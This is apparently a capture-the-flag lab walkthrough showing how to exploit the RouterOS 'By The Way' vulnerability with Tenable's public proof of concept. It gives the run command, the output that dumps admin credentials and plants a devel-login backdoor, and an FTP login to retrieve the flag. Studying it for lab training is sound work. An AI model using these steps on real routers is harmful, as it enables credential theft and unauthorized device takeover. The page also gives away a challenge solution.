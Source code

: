 +++
title = "Exploitation"
date = 2021-10-18T20:39:54-06:00
weight = 10
+++


After searching online, we find that the version of Mikrotik/RouterOS should be vulnerable to an exploit called "By The Way"
### Exploitation

The following versions of Router OS are vulnerable to "ByTheWay" exploit:
```
Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3
```

The Tenable security team has created a POC for the "By The Way" exploit, found here: <a href="https://github.com/tenable/routeros/tree/master/poc/bytheway">https://github.com/tenable/routeros/tree/master/poc/bytheway</a>

The repo is already cloned, and the exploit compiled.

1. Navigate to `~/routeros/poc/bytheway/build`
```
cd ~/routeros/poc/bytheway/build
```

2. Run the exploit against the Mikrotik
```
./btw -i 172.21.0.4
```

You should see the following:
```
$ ./btw -i 172.21.0.4

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴

[+] Attempting to connect to 172.21.0.4:8291
[+] Extracting user.dat...
[+] Searching for administrator credentials
[+] Using credentials - admin:sHby8Gzi292ZsnS
[+] Creating /pckg/option on 172.21.0.4:8291
[+] Creating /flash/nova/etc/devel-login on 172.21.0.4:8291
[+] There's a light on
```

3. We see that the exploit has extracted credentials for the admin user:

> admin:sHby8Gzi292ZsnS

4. Login to FTP  

```
$ ftp 172.21.0.4
```
Use the username and password to login.
```
Name (172.21.0.4:user): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
```

Set the mode to Passive
```
ftp> passive
Passive mode on.
```

List the directory
```
ftp> ls
227 Entering Passive Mode (172,21,0,4,191,152).
150 Opening data connection
-rw-rw----   1 root     root           59 Oct 18 12:47 flag.txt
drwxrwx---   1 root     root         1024 Dec 31 18:00 flash
226 Transfer complete
```

Get the flag!
```
ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (172,21,0,4,208,214).
150 Opening ASCII mode data connection for /flag.txt (59 bytes)
226 ASCII transfer complete
59 bytes received in 0.00 secs (61.0999 kB/s)
```

Exit FTP
```
ftp> exit
221 Closing
```

5. Print the flag. Use this to solve the Hacker Challenge.
```
$ cat flag.txt
```
